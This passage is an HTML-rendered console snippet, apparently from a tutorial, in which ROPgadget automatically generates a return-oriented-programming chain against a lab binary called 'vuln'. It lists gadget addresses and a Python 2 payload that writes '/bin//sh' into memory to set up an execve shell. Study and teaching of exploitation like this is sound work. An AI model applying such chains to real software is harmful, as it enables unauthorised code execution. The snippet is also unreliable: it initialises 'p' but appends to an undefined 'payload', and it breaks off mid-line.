<figure class="highlight console"> <figcaption><span>auto rop-chain generation</span><a href="https://github.com/JonathanSalwan/ROPgadget"><span style="color:#82C4E4">[github link]</span></a> </figcaption> <table> <tr> <td class="code"> <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">ROPgadget --binary vuln --ropchain</span></span><br><span class="line">ROP chain generation</span><br><span class="line">===========================================================</span><br><span class="line"></span><br><span class="line">- Step 1 -- Write-what-where gadgets</span><br><span class="line"></span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8059102 mov dword ptr [edx], eax ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80b074a pop eax ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret</span><br><span class="line"></span><br><span class="line">- Step 2 -- Init syscall number gadgets</span><br><span class="line"></span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804fb90 xor eax, eax ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x808055e inc eax ; ret</span><br><span class="line"></span><br><span class="line">- Step 3 -- Init syscall arguments gadgets</span><br><span class="line"></span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049022 pop ebx ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x8049e39 pop ecx ; ret</span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x80583c9 pop edx ; pop ebx ; ret</span><br><span class="line"></span><br><span class="line">- Step 4 -- Syscall gadget</span><br><span class="line"></span><br><span class="line">    [<span style="color:#47D4B9"><b>+</b></span>] Gadget found: 0x804a3d2 int 0x80</span><br><span class="line"></span><br><span class="line">- Step 5 -- Build the ROP chain</span><br><span class="line"></span><br><span class="line"><span class="comment">    #!/usr/bin/env python2</span></span><br><span class="line"><span class="comment">    # execve generated by ROPgadget</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">    from</span> struct <span class="keyword">import</span> pack</span><br><span class="line"></span><br><span class="line"><span class="comment">    # Padding goes here</span></span><br><span class="line">    p = <span class="string">''</span></span><br><span class="line"></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># @ .data</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080b074a</span>) <span class="comment"># pop eax ; ret</span></span><br><span class="line">    payload += <span class="string">'/bin'</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5064</span>) <span class="comment"># @ .data + 4</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080b074a</span>) <span class="comment"># pop eax ; ret</span></span><br><span class="line">    payload += <span class="string">'//sh'</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080583c9</span>) <span class="comment"># pop edx ; pop ebx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5068</span>) <span class="comment"># @ .data + 8</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x41414141</span>) <span class="comment"># padding</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x0804fb90</span>) <span class="comment"># xor eax, eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x08059102</span>) <span class="comment"># mov dword ptr [edx], eax ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x08049022</span>) <span class="comment"># pop ebx ; ret</span></span><br><span class="line">    payload += pack(<span class="string">'<I'</span>, <span class="number">0x080e5060</span>) <span class="comment"># @